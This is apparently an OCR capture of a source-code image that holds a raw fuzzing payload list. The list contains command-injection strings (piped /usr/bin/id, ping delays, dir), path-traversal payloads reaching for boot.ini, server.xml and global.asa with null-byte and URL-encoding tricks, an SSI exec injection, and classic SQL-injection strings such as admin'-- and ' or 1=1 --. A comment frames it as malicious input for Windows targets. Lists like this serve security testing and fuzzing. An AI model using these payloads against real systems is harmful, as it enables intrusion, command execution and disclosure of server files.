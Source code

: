 |nid\n
|usr/bin/id\n
||
|| ping -i 30 127.0.0.1 ; x || ping -n 30 127.0.0.1 &
||/usr/bin/id;
||/usr/bin/id|
}
# a wide sample of malicious input for windows targets
%0a
|dir|
dir%00
dir%00|
|dir
|/bin/ls -al
/boot.ini
../../boot.ini
/%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..winnt/desktop.ini
../../../../../../../../conf/server.xml
C:/inetpub/wwwroot/global.asa
C:\inetpub\wwwroot\global.asa
C:/boot.ini
C:\boot.ini
../../../../../../../../../../../../localstart.asp%00
../../../../../../../../../../../../localstart.asp
../../../../../../../../../../../../boot.ini%00
../../../../../../../../../../../../boot.ini
/./././././././././././boot.ini
/../../../../../../../../../../../boot.ini%00
/../../../../../../../../../../../boot.ini
/.\\./.\\./.\\./.\\./.\\./.\\./boot.ini
\..\..\..\..\..\..\..\..\..\..\boot.ini
..\..\..\..\..\..\..\..\..\..\boot.ini%00
..\..\..\..\..\..\..\..\..\..\boot.ini
/../../../../../../../../../../../boot.ini%00.html
/../../../../../../../../../../../boot.ini%00.jpg
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/boot.ini
&lt;!--#exec%20cmd=&quot;dir&quot;--&gt;
|
{'}

= '
= ;
= --
admin'--
') or ('x'='x
" or 1=1--
hi" or "a"="a
hi" or 1=1 --
hi' or 1=1 --
hi' or 'a'='a
hi') or ('a'='a
hi") or ("a"="a
select
as